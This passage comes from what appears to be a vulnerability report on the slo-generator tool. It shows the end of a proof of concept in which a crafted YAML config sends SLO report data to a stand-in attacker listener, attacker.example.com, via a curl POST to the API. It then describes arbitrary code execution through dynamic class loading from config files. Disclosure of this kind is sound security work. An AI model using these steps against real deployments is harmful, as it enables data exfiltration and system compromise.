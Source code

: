            project="your-project-id" # Replace with your project ID if needed
           metric.labels.response_code_class="2xx"
         filter_valid: >
           metric.type="run.googleapis.com/request_count"
           project="your-project-id" # Replace with your project ID if needed
       goal: 0.99
     ```
     Replace `http://attacker.example.com:8080` with the actual URL of your attacker-controlled HTTP listener.

  3. **Send POST Request to API:**
     ```bash
     curl -X POST -H "Content-Type: text/x-yaml" --data-binary @malicious-slo.yaml http://<slo-generator-api-endpoint>
     ```
     Replace `http://<slo-generator-api-endpoint>` with the actual URL of your deployed `slo-generator` API endpoint.

  4. **Observe Exfiltration:**
     - Check the logs of your attacker-controlled HTTP listener. You should see an HTTP POST request containing the SLO report data exfiltrated from the `slo-generator` instance. The data will be in Prometheus exposition format if using the `prometheus` exporter as in the example.

### Arbitrary Code Execution via Custom Backend/Exporter Class Loading

- **Description:**
    - The slo-generator tool allows users to extend its functionality by providing custom backend and exporter classes.
    - These custom classes are specified in the SLO and shared configuration files using a `class` path (e.g., `samples.custom.custom_backend.CustomBackend`).
    - The slo-generator dynamically imports and instantiates these classes using the `import_dynamic` function in `slo_generator/utils.py`.
    - An attacker can exploit this by crafting a malicious configuration file where the `class` path in the `backends` or `exporters` sections points to a Python file containing arbitrary malicious code.
    - When the slo-generator processes this configuration file, it will load and instantiate the attacker-controlled class, leading to arbitrary code execution on the system running the tool.

- **Impact:**
    - Critical. Successful exploitation allows for arbitrary code execution on the system running the slo-generator.
    - An attacker can gain complete control over the system, potentially leading to:
        - Data breaches and exfiltration of sensitive information (e.g., API keys, credentials, SLO reports, system data).
        - System compromise, including modification or deletion of files.
        - Denial of service by crashing the system or consuming resources (Although DoS was asked to be excluded, this is a side effect of ACE, not the primary vulnerability).
        - Further lateral movement within the network if the compromised system has network access.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
    - None. The current implementation lacks any input validation or sanitization for the `class` path, and no restrictions are in place to prevent loading arbitrary Python code.
